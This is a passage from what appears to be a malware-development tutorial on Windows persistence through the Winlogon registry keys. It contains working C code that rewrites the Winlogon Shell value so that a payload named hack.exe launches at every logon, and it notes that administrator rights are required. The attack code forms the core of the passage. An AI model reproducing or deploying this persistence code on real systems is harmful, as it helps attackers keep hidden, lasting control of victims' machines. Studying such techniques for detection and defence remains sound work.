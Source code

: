 After executing the persistence programs, on each boot it will launch hack.exe .

# Using Registry Keys used by Winlogon process 

Winlogon process assumes responsability of faciliting user logon and logoff operations, managing system starting and shutdown procedures (and screen locking functionality). Malicious actors possess capability to modify registry entries utilized by winlogon process in order to establish enduring presence.

We need to modify those registry keys :

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit
```
However to use them we need local administrator privileges.

The malware C code will be the same than above.

## Persistence C code 

```c 
#include <windows.h>
#include <string.h>
int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // shell
  const char* sh = "explorer.exe,hack.exe";
  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\
Microsoft\\Windows NT\\CurrentVersion\\Winlogon", 0 , KEY_WRITE,
&hkey);
  if (res == ERROR_SUCCESS) {
     // create new registry key
     RegSetValueEx(hkey, (LPCSTR)"Shell", 0, REG_SZ, (unsigned char*)
sh, strlen(sh));
     RegCloseKey(hkey);
  }
  return 0;
}
```

After running the pers.c we can see :

![registry](assets/images/maldev/3/registry.png)
